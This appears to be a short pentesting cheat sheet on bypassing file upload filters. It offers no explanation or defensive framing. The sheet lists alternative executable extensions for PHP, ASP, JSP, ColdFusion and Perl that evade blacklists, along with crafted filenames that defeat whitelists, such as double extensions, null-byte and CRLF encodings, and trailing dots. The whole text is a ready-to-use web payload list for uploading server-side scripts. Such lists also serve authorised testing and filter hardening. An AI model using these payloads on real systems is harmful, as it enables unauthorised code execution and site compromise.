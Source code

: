 # File Upload Bypass

## File Upload Bypass -

### Blacklisting Bypass 

1. **PHP** → .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
2. **ASP** → .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
3. **Jsp** → .jsp, .jspx, .jsw, .jsv, .jspf
4. **Coldfusion** → .cfm, .cfml, .cfc, .dbm
5. **Perl** → .pl, .cgi

Using random capitalization → .pHp, .pHP5, .PhAr

### Whitelisting Bypass

file.png.php\
file.png.Php5\
file.php%20\
file.php%0a\
file.php%00\
file.php%0d%0a\
file.php/\
file.php.\
file.\
file.php....\
file.pHp5....\
file.png.php\
file.png.pHp5\
file.php#.png\
file.php%00.png\
file.php\x00.png\
file.php%0a.png\
file.php%0d%0a.png\
file.phpJunk123png\
file.png.jpg.php\
file.php%00.png%00.jpg
